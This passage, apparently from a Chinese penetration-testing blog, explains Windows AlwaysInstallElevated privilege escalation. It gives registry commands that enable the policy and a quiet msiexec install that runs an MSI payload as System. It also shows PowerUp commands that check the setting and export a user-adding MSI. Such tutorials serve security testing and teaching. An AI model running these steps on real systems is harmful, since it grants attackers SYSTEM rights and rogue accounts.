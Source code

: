 cmd的命令如下：

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

### 利用方法：

启用AlwaysInstallElevated后，可以通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将会以System权限执行

调用msiexec的命令如下：

```
msiexec /q /i test.msi
```

/i参数用来表示安装操作

/q参数用来隐藏安装界面

**注：**

执行后会在%TEMP%下生成MSI的log文件

更多关于msiexec的介绍可参考之前的文章[《渗透测试中的msiexec》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)

## 0x03 开源方法测试
---

在测试环境启用AlwaysInstallElevated，命令如下：

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

### 1.PowerUp

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

(1)测试是否启用AlwaysInstallElevated

```
Import-Module .\PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

返回True代表开启


(2)导出msi文件

```
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```
